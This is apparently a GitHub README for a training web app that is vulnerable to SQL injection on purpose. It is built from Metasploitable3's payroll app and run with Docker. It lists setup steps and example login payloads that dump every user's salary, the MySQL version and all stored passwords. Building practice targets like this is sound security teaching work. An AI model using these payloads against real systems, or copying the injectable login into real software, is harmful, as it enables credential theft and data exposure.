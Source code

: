 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Project Instructions

Install the project requirements on your choice of operating system, including:

- Docker
- Docker Compose plugin

Run using either of the following:

- `make run`
- `docker compose up --build`

Open web browser and visit:

- `localhost:8080`

Clean the Docker environment (after making changes):

- `make clean`

## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`: `' UNION SELECT username,password FROM users#`
    - `password`: `anythingyouwant`
